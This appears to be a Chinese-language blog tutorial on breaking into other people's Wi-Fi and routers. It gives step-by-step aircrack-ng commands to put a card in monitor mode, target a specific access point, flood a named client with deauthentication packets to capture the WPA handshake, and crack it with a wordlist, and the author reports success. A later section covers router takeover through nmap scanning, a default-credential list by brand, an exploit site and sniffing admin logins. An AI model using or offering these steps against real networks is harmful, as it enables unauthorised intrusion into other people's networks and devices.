


1

无线渗透是一个比较有意思的领域。我对网站渗透倒是没有太大的兴趣。

有2个方向，一个是进入别人的路由器，另外一个是把别人引入到我们的路由器。

进入别人的路由器，正面硬刚的方式，就是用aircrack-ng来破解密码。

也可以用社工的方式来曲线救国。


# aircrack-ng

为了避免被攻击，记住：

**放弃WEP，真爱WPA2，禁用WPS。**


**Aircrack- NG**是一个完整的工具来评估Wi-Fi网络安全套件**(ex.1)**。

它专注于WiFi安全的不同领域：

**监控**：数据包捕获和导出数据到文本文件，以供第三方工具进一步处理。 
**攻击**：通过数据包注入回放攻击，去认证，伪造接入点等。 
**测试**：检查WiFi卡和驱动程序的能力（捕捉和注入）。 
**破解**：**WEP** 和 **WPA PSK**（**WPA 1和2**）。 


aircrack-ng是一个套件，里面有好几个工具。

## airmon-ng  

基本语法：

```
airmon-ng <start|stop> <interface> [channel] airmon-ng <check> [kill]
```

一个典型：

```
airmon-ng start wlan0 
```

可以从manager模式进入到monitor模式，也可以从monitor模式退回到manager模式。

不带参数，则显示当前的状态。

执行之前：

```
root@thinkpad:~# airmon-ng
Interface       Chipset         Driver
wlan0           Unknown         rtl8192se - [phy0]
```


执行之后，

```
root@thinkpad:~# airmon-ng 
Interface       Chipset         Driver
wlan0           Unknown         rtl8192se - [phy0]
mon0            Unknown         rtl8192se - [phy0]
```


## airodump-ng

扫描附近的的wifi。

```
airodump-ng mon0
```

输出是这样：



BSSID是wifi热点的mac地址。

PWD表示信号强度。

data表示该路由器的昂起的吞吐量。

CH路由器的通道。

ESSID的是对应路由器的名字。

可以专门监听自己感兴趣的路由器，而且指定通道号。

```
airodump-ng mon0 -c 13 -w ./data/handshake --bssid=C8:3A:35:4A:5E:30
```

这样会生成4个文件。

```
handshake-01.cap
handshake-01.csv
handshake-01.kismet.csv
handshake-01.kismet.netxml
```


**使用aireplay-ng进行解除认证攻击模式。**

在这里有必要补充一下握手包的概念，握手包指的是**采用WPA加密方式**的无线AP与无线客户端进行连接前的认证信息包。

一个合法的客户端要连上AP要经历四次握手**(ex.2)** 
1.你请求连AP 

2.AP发一个数据包给你 

3.你将收到的数据包用wpa密钥加密，然后发给AP 

4.AP用自己保存的wpa密钥加密相同数据包，然后和你发给他的比较，**如果相同，就发准许接入的许可。** 

上面就是一个合法客户端四次握手的全过程，我们所说的抓握手包，是指抓AP发给合法客户的数据包，和合法客户端加密后发给AP的数据包。

**所以我们就抓这两个包，当我们有了明文和密文，就可以破解出密钥。**

所以我们这里的关键是要发动攻击，迫使合法的客户端断线，进行重新认证，我们趁机抓包。

**保持上一个terminal窗口的运行状态，打开一个新的terminal。**

```
sudo aireplay-ng -0 0 -a C8:3A:35:4A:5E:30 -c 08:D4:6A:A9:66:92 mon0
```

这里我使用的是解除认证攻击模式，给客户端无限发送测试包使其下线。当你获取到握手包时，可以使用快捷**重点内容**键`Ctrl + C` 停止发送测试包。 

当你获取道握手包时，airodump-ng最上面一行红色区域会显示”WPA handshake”。



我当前并没有测试到这个。

如果测试到了。

那么接下来就关闭monitor模式了。

```
airmon-ng stop mon0
```

然后使用字典暴力破解

```
aircrack-ng -w data/dict.txt data/handshake-01.cap
```

dict.txt就是一个字典文件。

现在问题就是没法抓到wpa handshake。

网上搜索了一下，发现不少人都是碰到这个问题。

执行check看看。

```
root@thinkpad:~# airmon-ng check


Found 6 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!

PID     Name
1025    NetworkManager
1033    avahi-daemon
1096    avahi-daemon
1712    wpa_supplicant
2015    dhclient
2742    dhclient
Process with PID 2015 (dhclient) is running on interface wlan0
```

这些是可能导致我们的aircrack相关进程异常退出的。但是我当前并没有异常退出的。

执行一下

```
airmon-ng check kill
```

上面命令会自动帮我们杀掉可能有影响的进程。

这个人碰到的问题是在树莓派上不行，但是在自己的笔记本很容易就抓到了

Well I tried the same process on my netbook running lubuntu and captured the handshake immediately,

有没有可能是网卡的原因呢？

这个人后面换了

I captured a handshake with both the onboard card and the panda pau09 from desktop lubuntu no problem.  I'm almost positive it's an arm driver issue.

看看我的网卡的驱动信息。

```
root@thinkpad:~# modinfo rtl8192se
filename:       /lib/modules/4.15.0-118-generic/kernel/drivers/net/wireless/realtek/rtlwifi/rtl8192se/rtl8192se.ko
firmware:       rtlwifi/rtl8192sefw.bin
description:    Realtek 8192S/8191S 802.11n PCI wireless
license:        GPL
author:         Larry Finger    <Larry.Finger@lwfinger.net>
author:         Realtek WlanFAE <wlanfae@realtek.com>
author:         lizhaoming      <chaoming_li@realsil.com.cn>
srcversion:     FD61ECBF9D5EFAAFE808BBD
alias:          pci:v000010ECd00008174sv*sd*bc*sc*i*
alias:          pci:v000010ECd00008173sv*sd*bc*sc*i*
alias:          pci:v000010ECd00008172sv*sd*bc*sc*i*
alias:          pci:v000010ECd00008171sv*sd*bc*sc*i*
alias:          pci:v000010ECd00008192sv*sd*bc*sc*i*
depends:        rtlwifi,rtl_pci,mac80211
retpoline:      Y
intree:         Y
name:           rtl8192se
vermagic:       4.15.0-118-generic SMP mod_unload 
parm:           swenc:Set to 1 for software crypto (default 0)
 (bool)
parm:           ips:Set to 0 to not use link power save (default 1)
 (bool)
parm:           swlps:Set to 1 to use SW control power save (default 1)
 (bool)
parm:           fwlps:Set to 1 to use FW control power save (default 0)
 (bool)
parm:           aspm:Set to 1 to enable ASPM (default 1)
 (int)
parm:           debug_level:Set debug level (0-5) (default 0) (int)
parm:           debug_mask:Set debug mask (default 0) (ullong)
```

我重启了电脑。

首先就靠airmon-ng check kill掉进程。

然后按步骤来，很顺利就拿到了WPA handshake。

然后用找的一个常见wifi密码字典，很容易就破解了。


## aireplay-ng

这个是套件里的抓包工具。

```
airbase-ng     
aircrack-ng   
airdecap-ng  
airdecloak-ng
aireplay-ng   
airmon-ng   
	bash script designed to turn wireless cards into monitor mode.
	是一个脚本，用来把网卡设置为monitor模式。
airmon-zc    
airodump-ng   
	扫描附近的wifi热点。
airolib-ng   
airserv-ng   
airtun-ng  
buddy-ng(1)
easside-ng(8)
ivstools(1)
kstats(1)
makeivs-ng(1)
packetforge-ng(1)
tkiptun-ng(8)
wesside-ng(8)
```


aireplay-ng 中集成了10种攻击方式，分别是：

Attack 0: Deauthentication [解除认证](http://www.aircrack-ng.org/doku.php?id=deauthentication) 
Attack 1: Fake authentication [伪造身份验证](http://www.aircrack-ng.org/doku.php?id=fake_authentication) 
Attack 2: Interactive packet replay [交互式数据包重播](http://www.aircrack-ng.org/doku.php?id=interactive_packet_replay) 
Attack 3: ARP request replay attack [ARP请求重播攻击](http://www.aircrack-ng.org/doku.php?id=arp-request_reinjection) 
Attack 4: KoreK chopchop attack [KoreK斩杀攻击](http://www.aircrack-ng.org/doku.php?id=korek_chopchop) 
Attack 5: Fragmentation attack [碎片攻击](http://www.aircrack-ng.org/doku.php?id=fragmentation) 
Attack 6: Cafe-latte attack [咖啡拿铁攻击](http://www.aircrack-ng.org/doku.php?id=cafe-latte) 
Attack 7: Client-oriented fragmentation attack [面向客户的分片攻击](http://www.aircrack-ng.org/doku.php?id=hirte) 
Attack 8: WPA Migration Mode [WPA迁移模式](http://www.aircrack-ng.org/doku.php?id=wpa_migration_mode) 
Attack 9: Injection test [注射试验](http://www.aircrack-ng.org/doku.php?id=injection_test)

他的作用是**抓取重要数据包，并用于为后面的字典暴击破解**。

本次我我们将使用 Attack 0: Deauthentication 解除认证攻击。

# 接入路由器之后

接下来就是要想办法拿到管理了密码。

有些路由器可能开放了过多的端口，所以首先就可以用nmap来扫描一下。

```
nmap -sV -sT -T4 -v -oN router.txt -A -Pn 192.168.0.1
```

所以如果可以拿到console界面，当然是最好的。

但是这个只有在智能路由器才行。

常见的路由器品牌的登陆地址和密码：

```
3Com	http://192.168.1.1	admin	admin

Belkin	http://192.168.2.1	admin	admin

BenQ	http://192.168.1.1	admin	admin

D-Link	http://192.168.0.1	admin	admin

Digicom	http://192.168.1.254	admin	michelangelo

Digicom	http://192.168.1.254	user	password

Linksys	http://192.168.1.1	admin	admin

Netgear	http://192.168.0.1	admin	password

Sitecom	http://192.168.0.1	sitecom	admin

Thomson	http://192.168.1.254	user	user

US Robotics	http://192.168.1.1	admin	admin
```

这个网站列出了路由器漏洞。

http://routerpwn.com/

这个上面的连接，你点击了，提示你输入路由器的地址，然后就可以自动进行攻击了。

也可以持续监听，路由器管理界面一般是http的。所以只要用户有登陆，刚好你监听到了，也可以拿到的。

只是这种方式太被动了，而且可能等不到。小白几乎不会去登陆管理界面。


# gerix

这个是在aircrack-ng的基础上做的图形界面工具。

这个安装还不太方便。


参考资料

1、

https://blog.csdn.net/vevenlcf/article/details/82084633

2、

https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng

3、Unable to capture wpa handshakes

https://forums.hak5.org/topic/42013-unable-to-capture-wpa-handshakes/

4、9.2 使用Aircrack-ng工具破解无线网络

https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/52.html

5、

https://www.quora.com/How-do-I-hack-my-routers-username-and-password